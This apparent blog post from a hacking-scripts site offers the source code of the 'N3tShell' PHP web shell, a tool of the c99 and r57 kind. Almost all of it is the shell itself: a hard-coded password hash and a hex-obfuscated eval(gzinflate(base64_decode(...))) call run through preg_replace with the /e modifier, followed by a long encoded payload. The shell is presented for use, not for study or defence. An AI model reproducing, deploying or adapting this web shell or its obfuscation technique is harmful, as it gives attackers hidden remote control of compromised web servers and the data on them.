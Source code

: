 ```yaml
---
id: 83
title: 'N3tShell v. Emp3ror Undetectable #18 (encrypted)'
author: admin
layout: post
guid: http://hackingscripts.com/?p=83
permalink: /n3tshell/
categories:
  - N3tShell
  - PHP
tags:
  - N3tShell
  - PHP
---
```

The N3tShell is similar to the c99 and r57 shell scripts, and has a fairly pretty interface (so n00bs probably love it). This one is encrypted.

### N3tShell Source Code (encrypted)

{% highlight php %}<?php // Web Shell by oRb
$auth_pass = &quot;98b268e70d7c7ee4b0f6654900fcb841&quot;;
$color = &quot;#df5&quot;;
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';
preg_replace(&quot;/.*/e&quot;,&quot;\x65\x76\x61\x6C\x28\x67\x7A\x69\x6E\x66\
x6C\x61\x74\x65\x28\x62\x61\x73\x65\x36\x34\x5F\x64\x65\x63\x6F
\x64\x65\x28'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
